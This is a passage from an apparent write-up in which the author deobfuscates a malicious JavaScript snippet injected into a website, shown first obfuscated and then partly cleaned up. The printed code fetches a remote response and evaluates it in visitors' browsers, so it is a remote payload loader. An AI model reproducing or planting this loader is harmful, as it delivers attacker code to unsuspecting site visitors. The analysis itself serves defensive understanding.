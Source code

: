 ```javascript
            },
            H = Q,
            V = d,
            N = navigator,
            M = document,
            P = screen,
            v = window,
            k = M[V(X.N) + 'e'],
            E = v[H(X.M) + H(X.P)][H(X.v) + H(X.k)],
            U = v[H(X.M) + H(X.n)][V(X.E) + V(X.U)],
            K = M[H(X.K) + H(X.G)];
        E[V(X.W) + 'Of'](V(X.q)) == 0x0 && (E = E[H(X.j) + 'r'](0x4));
        if (K && !q(K, H(X.i) + E) && !q(K, H(X.T) + 'w.' + E) && !k) {
            var G = new HttpClient(),
                W = U + (V(X.p) + V(X.o)) + token();
            G[V(X.D)](W, function(j) {
                var Z = V;
                q(j, Z(I.N)) && v[Z(I.M)](j);
            });
        }

        function q(j, i) {
            var O = H;
            return j[O(C.N) + 'Of'](i) !== -0x1;
        }
    }());
};
```

I could see a lot of obfuscated logic, some code to make a request, and a jumbled array of what looked like parts of a URL.
After a few unsuccessfuly attempts at tracing the logic in a sandboxed environment, I decided that the current form of this snippet was too complicated for me to make sense of.

Luckily, I found a variety of JavaScript deobfuscation tools online. I tried [https://deobfuscate.relative.im/](https://deobfuscate.relative.im/), and it gave me this (much more readable) snippet.

```javascript
if (typeof zqxq === 'undefined') {
  var zqxq = true,
    HttpClient = function () {
      this.get = function (N, M) {
        var P = new XMLHttpRequest()
        P.onreadystatechange = function () {
          if (P.readyState == 4 && P.status == 200) {
            M(P.responseText)
          }
        }
        P.open('GET', N, true)
        P.send(null)
      }
    },
    rand = function () {
      return Math.random().toString(36).substr(2)
    }
  ;(function () {
    var N = navigator,
      M = document,
      P = screen,
      v = window,
      k = M.cookie,
      E = v.location.hostname,
      U = v.location.protocol,
      K = M.referrer
```
